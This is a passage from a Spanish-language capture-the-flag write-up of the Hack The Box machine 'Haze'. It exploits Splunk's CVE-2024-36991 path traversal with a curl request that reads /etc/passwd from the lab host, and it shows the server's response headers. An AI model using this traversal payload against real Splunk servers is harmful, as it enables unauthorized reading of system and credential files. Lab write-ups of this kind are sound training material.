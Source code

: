En el puerto 8000 está una instancia de Splunk, de la cual no poseemos credencial alguna para acceder, aún.

![Splunk](/assets/writeups/haze/1.png)

Del resto no podemos utilizar una sesión nula o el usuario guest para ver cosas "públicas" en el DC. Asi que veamos que hacemos con esto.

## Intrusión

### mark.adams && paul.taylor - haze.htb

No tenemos como obtener que versión de Splunk ejecuta el servidor, asi que empezaremos por buscando vulnerabilidades recientes con algún PoC y probarlo a ver si el Splunk es vulnerable.

Buscando por vulnerabilidades, encontramos al `CVE-2024-36991`, que se trata de una vulnerabilidad de lectura arbitraria de archivos de la cual podemos abusar sin tener credenciales previas. Intentando leer el archivo `/etc/passwd` de los archivos de Splunk a ver si está en el rango de versiones vulnerables:

```bash
❯ curl -v 'http://10.10.11.61:8000/en-US/modules/messaging/C:../C:../C:../C:../C:../etc/passwd'
*   Trying 10.10.11.61:8000...
* Connected to 10.10.11.61 (10.10.11.61) port 8000
* using HTTP/1.x
> GET /en-US/modules/messaging/C:../C:../C:../C:../C:../etc/passwd HTTP/1.1
> Host: 10.10.11.61:8000
> User-Agent: curl/8.13.0
> Accept: */*
> 
* Request completely sent off
< HTTP/1.1 200 OK
< Date: Fri, 27 Jun 2025 06:22:59 GMT
< Content-Type: text/html
< X-Content-Type-Options: nosniff
< Last-Modified: Wed, 05 Mar 2025 07:40:47 GMT
< Content-Length: 609
< Vary: Accept-Encoding, Cookie
< Connection: Keep-Alive
```